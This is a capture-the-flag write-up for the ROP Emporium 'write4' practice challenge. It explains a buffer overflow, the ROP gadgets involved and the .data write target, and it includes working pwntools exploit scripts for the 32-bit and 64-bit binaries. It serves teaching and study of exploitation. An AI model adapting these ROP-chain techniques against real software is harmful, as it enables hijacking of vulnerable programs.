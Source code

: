 # write


* Architecture: x86 (32-bit)


Link : [write4](https://ropemporium.com/challenge/write4.html)

Binary : [write4 x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/write432.zip)



## Challenge Overview

The `write432` challenge is part of ROP Emporium's x86 Return-Oriented Programming (ROP) practice exercises. The objective is to use ROP techniques to write the string `flag.txt` into the `.data` section of the binary and call the `print_file` function to read and display the file's contents.


## Challenge Details

* Binary Name: `write432`

* Architecture: x86 (32-bit)

* Vulnerability: Buffer overflow in the `pwnme` function, allowing control of the program's execution flow.

* Goal: Exploit the buffer overflow to:

* Write `flag.txt` into the `.data` section of memory.

* Call `print_file` with the address of the `.data` section as its argument.



## Vulnerability Analysis


### The `main` Function (Program Code)

The `main` function in the `write432` binary serves as the entry point:

![main](data/main.png)

It simply calls the vulnerable pwnme function.


### The `pwnme` Function (From `libwrite432.so`)

The `pwnme` function is the vulnerable entry point:

![pwnme](data/pwnme.png)


* Buffer Overflow: The function reads up to 512 bytes into a 36-byte buffer (`s`), allowing for overwriting of the saved return address.


### The `print_file` Function (From libwrite432.so)

The `print_file` function reads and prints the contents of a specified file:


![print_file.png](data/print_file.png)

* Purpose: Opens the file specified by the `filename` argument, reads its content into a buffer, and prints it.

* Address in Binary: 0x080483d0

![add_print_file](data/add_print_file.png)


```
> ROPgadget --binary write432

0x08048543 : mov dword ptr [edi], ebp ; ret
0x080485aa : pop edi ; pop ebp ; ret
```

![section](data/section.png)


### Key Gadgets (From Program Code)

ROP gadgets required to exploit the vulnerability:

1. `pop edi; pop ebp; ret` (Address: `0x080485aa`):

	* Loads values into `edi` (target memory address) and `ebp` (data to write).

2. `mov dword ptr [edi], ebp; ret` (Address: `0x08048543`):

	* Writes the value in `ebp` to the memory address pointed to by `edi`.


### Writable Memory Section

* `.data` Section: Address starts at `0x0804a018` and is writable, making it suitable for storing `flag.txt`.


## Exploitation Steps


### Step 1: Write `flag.txt` to the `.data` Section

Using ROP gadgets, the string `flag.txt` is written in two parts:

1. Write flag to `0x0804a018`.

2. Write .txt to `0x0804a018+4`.


### Step 2: Call `print_file`

After constructing the string in memory, the `print_file` function is called with the address of the `.data` section as its argument.

## Exploit Code

```py
from pwn import *

sh = process("./write432")

print(sh.recv().decode())

payload = b"A"*44

# Write 'flag' to .data
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018) # .data
payload += b"flag"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Write '.txt' to .data + 4
payload += p32(0x080485aa) # pop edi ; pop ebp ; ret
payload += p32(0x0804a018 + 4) # .data
payload += b".txt"
payload += p32(0x08048543) # mov dword ptr [edi], ebp ; ret

# Call print_file("flag.txt")
payload += p32(0x80483d0) # print_file
payload += b"A"*4		  # Padding
payload += p32(0x0804a018) # .data

sh.sendline(payload)
print(sh.recv().decode())
```



## Explanation of the ROP Chain

### Writing to Memory

The ROP chain uses gadgets to write arbitrary values to memory:

1. `pop edi; pop ebp; ret`: Loads the destination address (`edi`) and the value to write (`ebp`).

2. `mov dword ptr [edi], ebp; ret`: Writes the value in `ebp` to the memory location pointed to by `edi`.

By chaining these gadgets, `flag` and `.txt` are written to consecutive memory locations in the `.data` section.


### Calling `print_file`

Finally, the `print_file` function is called with the address of `flag.txt` in the `.data` section. Padding ensures proper alignment of the stack.


## Exploit Output

Running the exploit produces the following output:

![exploit](data/exploit.png)


This challenge demonstrates the fundamentals of ROP exploitation on x86 binaries and highlights the importance of secure memory management.



* Architecture: x64 (64-bit)


The `write4` challenge involves exploiting a buffer overflow to write the string `flag.txt` into the writable `.data` section and calling the `print_file` function to read and print its contents.

Key Steps:

* Writing `flag.txt`: Use the `pop r14; pop r15; ret` and `mov qword ptr [r14], r15; ret` gadgets to write `flag.txt` into the `.data` section at `0x601028`.
* Calling `print_file`: Use the `pop rdi; ret` gadget to set the first argument (`rdi`) to the `.data` section address and call the `print_file` function.


```py
from pwn import *

sh = process("./write4")

print(sh.recv().decode())

payload = b"A"*(40)

payload += p64(0x0000000000400690) # pop r14 ; pop r15 ; ret
payload += p64(0x0000000000601028) # .data
payload += b"flag.txt"
payload += p64(0x0000000000400628) # mov qword ptr [r14], r15 ; ret

# Call print_file

payload += p64(0x0000000000400693) # pop rdi ; ret
payload += p64(0x0000000000601028) # .data
payload += p64(0x00400510) # print_file

sh.sendline(payload)
sh.interactive()
```
